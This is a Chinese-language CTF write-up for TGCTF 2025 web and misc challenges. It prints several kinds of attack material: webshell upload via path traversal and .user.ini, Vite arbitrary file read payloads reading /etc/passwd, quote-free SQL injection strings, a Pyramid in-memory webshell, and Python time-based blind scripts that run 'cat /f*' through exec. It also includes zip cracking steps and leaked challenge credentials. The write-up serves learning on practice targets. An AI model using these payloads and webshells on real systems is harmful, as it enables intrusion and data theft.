# web

##  AAA偷渡阴平（复仇）

源码：

```
 <?php


                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      ?>
```

```
if (isset($_GET['name'])) {
            $file_name = $_GET['name'];
        } else {
            $file_name = basename($_FILES['name']['name']);
```

这里我们注意到可以传入name参数来控制文件名，且basename文件没有对传入的name参数进行清洗

```
$img_path = UPLOAD_PATH . $file_name;
```

$img_path是由文件名直接拼接得到的，存在目录穿越漏洞，因此我们可以将文件上传到/var/www/html目录中，配合.user.ini实现对非.php文件的解析，上线webshell





payload：

```
/index.php?cmd=system("env");
或/upload.php?cmd=system("env");
```

---

## 前端GAME

做这题以为和其他前端小游戏题一样，要么改分要么直接触发通关，结果看题解说是CVE任意文件读取

先查看源码



提示flag在/tgflagggg，但是并没有找到相关读取功能，但是可以检索到相关CVE：

[Vite CVE-2025-30208安全漏洞](https://www.cnblogs.com/risheng/p/18795361)

[CVE-2025-30208 |Vite-漏洞分析与复现](https://blog.csdn.net/IDHALASHAO/article/details/146611941)

payload：

```
/@fs/tgflagggg?import&raw??
```

## **前端GAME Plus**

考点总结：CVE-2025-31486 

Vite开发服务器任意文件读取漏洞 题目描述：非常适合新生的前端小游戏Plus版，真的吗。 WP： CVE-https://mp.weixin.qq.com/s?__biz=MzkyMTcwNjg4Mw==&mid=2247483811&idx=1&sn=2b4403023fd911f611bf5590ea3796d6&scene=21#wechat_redirect

flag在根目录下 /tgflagggg 中 

```
/etc/passwd?.svg?.wasm?init
/tgflagggg?.svg?.wasm?init
#这个打法，不太好猜路径
curl "http://node1.tgctf.woooo.tech:32613/@fs/app/?/../../../../../tgflagggg?
import&?raw
```

---

## **前端GAME Ultra**

考点总结：CVE-2025-32395 

Vite开发服务器任意文件读取漏洞（兵不厌诈） 题目描述：非常适合新生的前端小游戏Ultra版，真的吗。 WP： CVE-2025-32395 https://mp.weixin.qq.com/s/HMhzXqSplWa-IwpftxwTiA

```
访问/@fs/tmp/获得绝对路径/app，同时给了附件看docker也能看出路径

curl --request-target /@fs/app/#/../../../../../etc/passwd http://127.0.0.1:58664/
curl --request-target /@fs/app/#/../../../../../tgflagggg http://127.0.0.1:58664/
```

---

## TGCTF2025 后台管理

源码

```
from flask import Flask, request, redirect, render_template,
render_template_string
import pymysql.cursors
import os
def db():
    return pymysql.connect(
        host=os.environ["MYSQL_HOST"],
        user=os.environ["MYSQL_USER"],
        password=os.environ["MYSQL_PASSWORD"],
        database=os.environ["MYSQL_DATABASE"],
        charset="utf8mb4",
        cursorclass=pymysql.cursors.DictCursor,
   )
   
app = Flask(name)

@app.get("/")
def index():
    if "username" not in request.cookies:
        return redirect("/login")
    return render_template("index.html", username=request.cookies["username"])
    
@app.route("/login", methods=["GET", "POST"])
def login():
可以在参数中使用 \ 来转义字符串从而绕开引号的限制，剩下的就很简单了。
    if request.method  "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        if username is None or password is None:
            return "要输入账号密码喔~", 400
        if len(username) > 64 or len(password) > 64:
            return "哈~太长了，受不了了~", 400
        if "'" in username or "'" in password:
            return "杂鱼，还想SQL注入？爬！", 400
            
        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND
password = '{password}'"
               )
                user = cursor.fetchone()
        except Exception as e:
            return f"Error: {e}", 500
        finally:
            if conn is not None:
                conn.close()
        if user is None or "username" not in user:
            return "账号密码错误", 400
        response = redirect("/")
       response.set_cookie("username", user["username"])
        return response
    else:
        return render_template("login.html")
```

可以在参数中使用 \ 来转义字符串从而绕开引号的限制然后使用报错注入。并且引号被过滤了，所以报错注入中的'~'可以改为null，就不需要单引号了。

```
username=\&password=and updatexml(null,concat((select * from flag)),null)--+

username=\&password=union select *,2 from flag#
```

---

## **TG_wordpress**

Sample Page发现小记，可以知道前台有多个方向漏洞。 

这里我就写个MISC方向的漏洞

**logo另存为图片，jphide可以找到hint。**

hint内容：

```
+ HINT(not flag/FLAG):
+ username/password:
+ TG_wordpressor
+ aXx^oV@K&cFoVaztQ*
+
+ All hints have the same content
+ obtaining one is enough
```

然后用账号密码登录，进入后台

发现插件有6.0的WP File Manager。漏洞号是CVE-2020-25213

然后根据题目的提示`flag形式是TGCTF{CVE编号}`

所以flag

```
TGCTF{CVE-2020-25213}
```

---

## **熟悉的配方，熟悉的味道**

源码

```
from pyramid.config import Configurator
from pyramid.request import Request
from pyramid.response import Response
from pyramid.view import view_config
from wsgiref.simple_server import make_server
from pyramid.events import NewResponse
import re
from jinja2 import Environment, BaseLoader

eval_globals = { #防止eval执行恶意代码
    '__builtins__': {},      # 禁用所有内置函数
    '__import__': None       # 禁止动态导入
}


def checkExpr(expr_input):
    expr = re.split(r"[-+*/]", expr_input)
    print(exec(expr_input))

    if len(expr) != 2:
        return 0
    try:
        int(expr[0])
        int(expr[1])
    except:
        return 0

    return 1


def home_view(request):
    expr_input = ""
    result = ""

    if request.method == 'POST':
        expr_input = request.POST['expr']
        if checkExpr(expr_input):
            try:
                result = eval(expr_input, eval_globals)
            except Exception as e:
                result = e
        else:
            result = "爬！"


    template_str = 【xxx】

    env = Environment(loader=BaseLoader())
    template = env.from_string(template_str)
    rendered = template.render(expr_input=expr_input, result=result)
    return Response(rendered)


if __name__ == '__main__':
    with Configurator() as config:
        config.add_route('home_view', '/')
        config.add_view(home_view, route_name='home_view')
        app = config.make_wsgi_app()

    server = make_server('0.0.0.0', 9040, app)
    server.serve_forever()
```

比赛时候想到了要利用exec无回显命令执行，但是不知道怎么利用。题解说是打内存马

三种解法：

payload：

1、内存马

```
expr=exec("config.add_route('shell_route','/17shell');config.add_view(lambda
request:Response(import('os').popen(request.params.get('1')).read()),route
_name='shell_route');app = config.make_wsgi_app()")
/17shell?1=ls /
```

**对内存马进行分析：**

```
import sys
这行代码导入了Python的标准库模块sys，用于访问与Python解释器紧密相关的变量和函数。

config = sys.modules['__main__'].config
这当前运行环境中存在名为config的对象，并且它是全局命名空间的一部分（即位于__main__模块中）。config对象通常用于存储应用程序配置信息，在Pyramid框架中，它还负责定义应用的行为，如路由规则等。
app = sys.modules['__main__'].app

类似地，app也被认为是在全局命名空间中存在的一个变量，代表了WSGI兼容的应用实例。WSGI(Web Server Gateway Interface)是一种用于Python web应用和服务之间通信的标准接口。

print(config)
这行代码简单地打印出config对象的内容，为了更好调试，检查其是否正确加载。

config.add_route('shell', '/shell')
此行调用了config对象的方法add_route，用于向Web应用添加一个新的URL路由。这里的路由名称为'shell'，对应的路径是'/shell'。这意味着当用户访问这个特定的URL时，会触发与之关联的视图逻辑。

config.add_view(lambda request: Response(__import__('os').popen(request.params.get('1')).read()), route_name='shell')
这是关键的一行，它定义了一个匿名函数（lambda表达式），该函数接受一个request参数并返回一个HTTP响应。在这个过程中，它使用了__import__('os').popen(...)来执行操作系统命令。更具体地说，它从请求参数中获取键为'1'的值，并将其作为命令传递给系统shell执行。然后，它读取命令执行的结果，并通过Response对象将其作为HTTP响应体发送回客户端。

app = config.make_wsgi_app()
最后，这行代码调用了config上的make_wsgi_app方法，创建了一个新的WSGI应用实例，并将其赋值给app变量。这一步骤完成了应用的构建过程。
```

2、request.add_response_callback 钩子函数进行回显。（是个好方法，但是这里用 不了，因为exec不在home_view下没有request）

```
print(exec("request.add_response_callback(lambda request,
response:setattr(response, 'text', getattr(getattr(import('os'),'popen')
('whoami'),'read')()))"));
```

3、时间盲注：（唯一能看懂的方法）

```
import string
import requests
import time

url = "http://127.0.0.1:59439/"
ans = ""
for i in range(0, 100):
    for strr in string.printable:
        shell = f"""
import os
import time
a = os.popen('cat /fl*').read()
if len(a) > {i} and a[{i}] == '{strr}':
	time.sleep(2)
"""
        start = time.time()
        requests.post(url, data={'expr': shell})
        end = time.time()
        if end - start > 2:
            ans += strr
            print(ans)
```

另一个脚本（这个更稳定，也更难看懂）

```
import requests
import time

def cmd(cmd):
    url = "http://node1.tgctf.woooo.tech:32142/"
    # url = "http://127.0.0.1:9040/"
    result = ""

    for i in range(100):
        flag = True
        left = 33
        right = 126

        while True:
            data = {
                "expr": f'a=__import__("os").popen("{cmd}").read()\nif(ord(a[{i}])<{(left+right)//2}):__import__("time").sleep(1)'
            }
            if flag:
                try:
                    res = requests.post(url, data=data)
                except Exception as err:
                    pass
                # print(res.text)
                flag = False

            start = time.time()

            try:
                res = requests.post(url, data=data)
            except Exception as e:
                print(e)
                i -= 1
                continue

            end = time.time()
            print(left, right, (left+right)//2, end-start)
            
            if end - start > 1:
                right = (left+right)//2-1
            else:
                left = (left+right)//2+1

            if left > right:
                # print(chr(left-1), end="")
                result += chr(left-1)
                print(result)
                break


cmd('cat /f*')
```

---

# misc

## ez_zip

### 明文攻击

明文攻击是一种较为高效的攻击手段，大致原理是当你不知道一个zip的密码，但是你有zip中的一个已知文件（文件大小要大于12Byte）或者已经通过其他手段知道zip加密文件中的某些内容时，因为同一个zip压缩包里的所有文件都是使用同一个加密密钥来加密的，所以可以用已知文件来找加密密钥，利用密钥来解锁其他加密文件

---

先把Victory_is_at_hand.zip下载下来，然发现要密码，爆破一下


爆出密码20250412，将压缩包解压。

第二步得到一个end压缩包和sh512.txt的文件，再看一看压缩包内，同样有一个相同名字的文件，优先考虑明文爆破，但是明文爆破是需要有已知明文的，这里我们发现sh512内的并非密文而是有意义的明文

```
Awesome,you_are_so_good
```

自然可以想到把内容进行sha512加密：

```
0894fb7edcf85585e8749faeac3c7adf4247ae49b50cc55c4dd5eead0a9be60b7d848baece2ee65273d110317be4fe709c4b2bdeab48a212ca741e989df39963
```

把加密内容写进文本文件后打包，当然压缩方式也需要和原始的压缩方式一致

对照一下crc值：



使用ARCHPR明文攻击



得到解密之后的文件。

解压得到一个flag压缩包，但是flag压缩包解压出错

观察一下，发现文件名的长度有问题，修改一下，flag.txt长度应为8,改回08 00



010中没有没有看到明文flag，但是压缩算法却为store，这里修改为DEFLATE











其余的部分,**压缩源文件数据区**和**压缩源文件目录区**在文件头标记后,除了压缩源文件目录区

多出一条压缩使用的版本 (2 bytes) ,即本题中重复出现的两次14 00,一直到文件名长度

08 00,都是保持一致的,所以可以直接将压缩源文件数据区的十六进制数据复制填入压缩源

文件目录区表示文件名长度的08 00前即可



修改成功后解压拿到flag

```
TGCTF{Warrior_You_have_defeated_the_giant_dragon!}
```

```
一个 ZIP 文件由三个部分组成：
        压缩源文件数据区+压缩源文件目录区+压缩源文件目录结束标志

    1、压缩源文件数据区

    在这个数据区中每一个压缩的源文件/目录都是一条记录，记录的格式如下：
      

       [文件头+ 文件数据 + 数据描述符]
 
       a、文件头结构

         组成    　                长度
      文件头标记                  4 bytes  (0x04034b50)
      解压文件所需 pkware 版本    2 bytes
      全局方式位标记              2 bytes
  　　压缩方式                    2 bytes
  　　最后修改文件时间             2 bytes
 　　 最后修改文件日期             2 bytes
 　　 CRC-32校验                  4 bytes
 　 　压缩后尺寸                  4 bytes
 　 　未压缩尺寸                  4 bytes
 　　 文件名长度                  2 bytes

      扩展记录长度                2 bytes
 　　 文件名                     （不定长度）
 　　 扩展字段                   （不定长度）

      

      
        b、文件数据


       

        c、数据描述符

 　　　组成    　长度
  　　CRC-32校验                  4 bytes
  　　压缩后尺寸                   4 bytes
 　 　未压缩尺寸                   4 bytes

      这个数据描述符只在全局方式位标记的第３位设为１时才存在（见后详解），紧接在压缩数据的最后一个字节后。这个数据描述符只用在不能对输出的 ZIP 文件进行检索时使用。例如：在一个不能检索的驱动器（如：磁带机上）上的 ZIP 文件中。如果是磁盘上的ZIP文件一般没有这个数据描述符。

     2、压缩源文件目录区

     在这个数据区中每一条纪录对应在压缩源文件数据区中的一条数据


   　　　组成               　            长度
    　　目录中文件文件头标记             4 bytes  (0x02014b50)
    　　压缩使用的　pkware 版本          2 bytes
    　　解压文件所需 pkware 版本         2 bytes
    　　全局方式位标记                   2 bytes
    　　压缩方式                        2 bytes
    　　最后修改文件时间                 2 bytes
    　　最后修改文件日期                 2 bytes
    　　ＣＲＣ－３２校验                 4 bytes
    　　压缩后尺寸                      4 bytes
    　　未压缩尺寸                      4 bytes
    　　文件名长度                      2 bytes
    　　扩展字段长度                    2 bytes
    　　文件注释长度                    2 bytes
    　　磁盘开始号                      2 bytes
    　　内部文件属性                    2 bytes
    　　外部文件属性                    4 bytes
        局部头部偏移量                  4 bytes
    　　文件名                       （不定长度）
    　　扩展字段                     （不定长度）
        文件注释                     （不定长度）
    3、压缩源文件目录结束标志

    　　　组成               　          长度
        目录结束标记                    4 bytes  (0x02014b50)
        当前磁盘编号                    2 bytes
        目录区开始磁盘编号              2 bytes
    　　本磁盘上纪录总数                 2 bytes
    　　目录区中纪录总数                 2 bytes
    　　目录区尺寸大小                   4 bytes
    　　目录区对第一张磁盘的偏移量        4 bytes
    　　ZIP 文件注释长度                 2 bytes
    　　ZIP 文件注释                   （不定长度）
```

---

## **TeamGipsy&ctfer**

1.其实这题很简单，给全了虚拟机配置文件，直接VM打开，发现要密 码，直接Linux登陆

